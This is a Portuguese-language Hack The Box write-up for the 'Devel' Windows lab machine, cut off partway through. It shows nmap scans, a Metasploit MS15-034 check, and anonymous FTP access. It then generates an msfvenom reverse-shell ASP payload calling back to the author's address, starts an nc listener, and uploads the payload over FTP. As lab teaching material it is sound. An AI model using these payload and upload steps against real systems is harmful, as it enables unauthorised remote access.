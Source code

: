 ```yaml
---
title:     "Hack The Box - Devel"
tags: [windows,easy]
categories: HackTheBox
---
```



![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-devel/1.jpg)

## Enumeration

Iniciamos nossa enumeracao usando o nmap


```
root@kali:~/HTB-Windows/devel# nmap -Pn -p- -T4 -oN nmap/allports  10.10.10.5
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 10:07 EDT
Nmap scan report for 10.10.10.5
Host is up (0.19s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 232.58 seconds
```

Encontrado duas porta TCP open. Precisamos ter mais informacoes sobre esses servicos encontrados, por exemplo: versao

```
root@kali:~/HTB-Windows/devel# nmap -sV -p21,80 -oN nmap/services_version 10.10.10.5
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 10:19 EDT
Nmap scan report for 10.10.10.5
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.99 seconds
```

Eu particulamente ja tinha idea desde antes que trata-se de uma maquina WINDOWS. Antes de iniciar a maquina eu tinha dado um ping, e tive um TTL de 127, com isso eu sei que eh uma maquina windows.

***reference*** https://subinsb.com/default-device-ttl-values/ and https://superuser.com/questions/620304/how-to-identify-which-os-is-running-at-remote-host

```
TTL=64 = *nix - the hop count so if your getting 61 then there are 3 hops and its a *nix device. Most likely Linux.
TTL=128 = Windows - again if the TTL is 127 then the hop is 1 and its a Windows box.
TTL=254 = Solaris/AIX - again if the TTL is 250 then the hop count is 4 and its a Solaris box.
```

Mas voce tambem pode usar o proprio NMAP com a opcao **OS DETECTION: -O: Enable OS detection** e assim obter informacoes sobre qual sistema operacional voce esta trabalhando, isso eh muito importante.

continuando...

Mas uma vez voltamos ao nosso nmap, dessa vez usando os scripts nse

```
root@kali:~/HTB-Windows/devel# nmap -p21,80 --script vuln -oN nmap/vulns 10.10.10.5   
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 10:33 EDT
Stats: 0:10:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.51% done; ETC: 10:43 (0:00:03 remaining)
Nmap scan report for 10.10.10.5
Host is up (0.19s latency).

PORT   STATE SERVICE
21/tcp open  ftp
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-vuln-cve2015-1635: 
|   VULNERABLE:
|   Remote Code Execution in HTTP.sys (MS15-034)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2015-1635
|       A remote code execution vulnerability exists in the HTTP protocol stack (HTTP.sys) that is
|       caused when HTTP.sys improperly parses specially crafted HTTP requests. An attacker who
|       successfully exploited this vulnerability could execute arbitrary code in the context of the System account.
|           
|     Disclosure date: 2015-04-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms15-034.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1635

```

Encontramos algo vulneravel, precisamos pesquisar sobre essa vuln.

Depois de pesquisar e tentar explorar, ela nao foi muito promissora. Precisamos continuar enumerando ...

```
msf5 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > set rhosts 10.10.10.5
rhosts => 10.10.10.5
msf5 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > set verbose true
verbose => true
msf5 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > run
/usr/share/metasploit-framework/modules/auxiliary/scanner/http/ms15_034_http_sys_memory_dump.rb:67: warning: URI.escape is obsolete

[*] 10.10.10.5:80         - Checking /iisstart.htm [416] - Vulnerable
[+] Target may be vulnerable...
[*] File length: 689 bytes
[+] Stand by...
[-] Memory dump start position not found, dumping all data instead

[+] Memory contents:
48 54 54 50 2f 31 2e 31 20 32 30 36 20 50 61 72    |HTTP/1.1 206 Par|
74 69 61 6c 20 43 6f 6e 74 65 6e 74 0d 0a 43 6f    |tial Content..Co|
6e 74 65 6e 74 2d 54 79 70 65 3a 20 74 65 78 74    |ntent-Type: text|
2f 68 74 6d 6c 0d 0a 4c 61 73 74 2d 4d 6f 64 69    |/html..Last-Modi|
66 69 65 64 3a 20 46 72 69 2c 20 31 37 20 4d 61    |fied: Fri, 17 Ma|
```

De volta ao nmap e usando novamente os scripts default, encontrei coisas interessantes. (Enumeracao eh a chave)

```
root@kali:~/HTB-Windows/devel# nmap -sC -p21,80 -oN nmap/scripts 10.10.10.5
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 10:56 EDT
Nmap scan report for 10.10.10.5
Host is up (0.19s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 06-26-20  12:06AM                 1442 cmdasp.aspx
| 06-25-20  11:58PM                 2866 ex.aspx
| 06-25-20  08:15PM                    5 hej.txt
| 03-17-17  05:37PM                  689 iisstart.htm
| 06-25-20  11:35PM                62803 troll.jpg
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7

Nmap done: 1 IP address (1 host up) scanned in 6.40 seconds
```

Observe que ele fez login anonymous no FTP, precisamos logar e tentar escrever arquivos e ver se reflete no servidor IIS. Se isso acontecer podemos tentar fazer o upload de nossa shell e executar ela quando acessar atraves do IIS e assim obter uma reverse shell ou ate mesmo uma web shell.

Pronto, acabei de accessar via ftp com login anonymous

```
root@kali:~/HTB-Windows/devel/ftp# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
06-26-20  12:06AM                 1442 cmdasp.aspx
06-25-20  11:58PM                 2866 ex.aspx
06-25-20  08:15PM                    5 hej.txt
03-17-17  05:37PM                  689 iisstart.htm
06-26-20  02:01AM                38469 shell.asp
06-25-20  11:35PM                62803 troll.jpg
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

Realmente tudo indica que estamos no caminho certo, observe que alguem fez o upload de shell la tambem. Entao, vamos fazer o da nossa.

Se nao souber criar o seu payload veja essa referencia do msfvenom

***reference*** https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/

Eu nao vou usar o payload do meterpreter, entao eu mudei isso

```
root@kali:~/HTB-Windows/devel/ftp# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.36 LPORT=53 -f asp > an4kein.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of asp file: 38253 bytes
```
Ok, ja configurei o nc na porta 53 ela ja esta em modo listen

```
root@kali:~/HTB-Windows/devel/ftp# rlwrap nc -nlvp 53
listening on [any] 53 ...
```

Agora, vamos enviar nossa shell em .asp via FTP.

```
root@kali:~/HTB-Windows/devel/ftp# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
06-26-20  12:06AM                 1442 cmdasp.aspx
06-25-20  11:58PM                 2866 ex.aspx
06-25-20  08:15PM                    5 hej.txt
03-17-17  05:37PM                  689 iisstart.htm
06-26-20  02:01AM                38469 shell.asp
06-25-20  11:35PM                62803 troll.jpg
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> put an4kein.asp
local: an4kein.asp remote: an4kein.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
38323 bytes sent in 0.00 secs (9.4219 MB/s)
ftp> 
```

Entao, vou tentar acessar o **an4kein.asp** atraves do IIS que esta na port 80.

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-devel/2.jpg)

Como voces podem observar eu nao tive exito, eu vou tentar um arquivo .txt para ver se vai funcionar, se funcionar eu vou tentar uma WEB SHELL.

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-devel/3.jpg)

Sim, conseguimos ler o .txt. Vou tentar usando web shell
